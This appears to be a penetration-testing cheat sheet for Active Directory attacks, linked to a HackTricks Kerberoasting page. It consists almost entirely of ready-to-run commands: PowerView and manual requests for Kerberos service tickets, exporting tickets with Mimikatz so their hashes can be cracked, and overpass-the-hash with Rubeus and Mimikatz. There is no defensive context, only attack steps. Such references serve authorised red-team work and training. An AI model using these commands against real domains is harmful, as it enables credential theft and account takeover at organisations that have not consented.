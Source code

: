 https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast

To see existing tickets
```powershell
klist
```

Remove all tickets
```powershell
klist purge
```

### PowerView
Request a kerberos service ticket for specified SPN.  By default the output is in Hashcat format
```powershell
Request-SPNTicket -SPN "CIFS/target.domain.local" [-OutputFormat JTR]
```
### Manually
By doing it manually, ticket is generated, it requires to be extracted to crack the hash
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "CIFS/target.domain.local"
```

Dump the tickets out
```text
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

Now, crack ’em
### Over-Pass the Hash
#### Rubeus
```powershell
Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/opsec] /ptt
```
#### Mimikatz
```powershell
sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe
```